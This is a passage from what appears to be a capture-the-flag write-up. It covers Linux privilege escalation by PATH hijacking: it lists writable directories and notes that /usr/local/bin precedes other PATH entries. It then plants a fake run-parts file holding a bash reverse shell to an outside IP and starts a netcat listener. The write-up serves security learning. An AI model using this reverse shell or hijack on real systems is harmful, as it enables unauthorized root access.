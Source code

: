 ```
/usr/local/share/xml/entities

/usr/local/share/xml/declaration

/usr/local/games

/usr/local/src

/usr/local/etc

/usr/local/lib

/usr/local/lib/python3.5

/usr/local/lib/python3.5/dist-packages

/usr/local/lib/python2.7

/usr/local/lib/python2.7/dist-packages

/usr/local/lib/python2.7/site-packages

/usr/local/sbin

/run/user/1000

/run/shm

/run/lock

/home/jkr

```

. /usr/local/bin is the 2nd value in the PATH variable, which means the
executable placed in it will execute before the rest of the PATH:
/usr/sbin:/usr/bin:/sbin:/bin

### Root Shell

Newly created run-parts file with reverse shell code is placed in the path
folder prior to it's the original one.

```
jkr\@writeup:\~\$ nano /usr/local/bin/run-parts

bash -i \>& /dev/tcp/10.10.15.99/443 0\>&1

```

On attacker VM, turning on netcat to listen for incoming connection.

```
root\@lifesfun:\~\# nc -nvlp 443

listening on [any] 443 ...
```
